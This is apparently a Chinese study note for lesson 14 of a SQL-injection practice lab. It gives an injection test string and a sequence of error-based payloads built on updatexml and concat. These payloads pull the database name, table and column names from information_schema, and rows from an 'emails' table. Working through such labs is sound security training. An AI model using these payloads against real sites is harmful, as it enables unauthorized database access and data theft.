





# Less14

　　这关关于二次post注入

　　判断是否存在注入：?id=1") and 1=1 -- lb

　　报错说明存在注入

　　‍

　　这里应该使用报错注入：

　　判断库名：" union select updatexml(1,concat(0x7e,(select database()),0x7e),1) #

　　判断表名：" union select updatexml(1,concat(0x7e,(select table\_name from information\_schema.tables where table\_schema\='security'limit 0,1),0x7e),1)-- lb

　　判断列名：" union select updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- lb

　　判断数据：" union select updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- lb

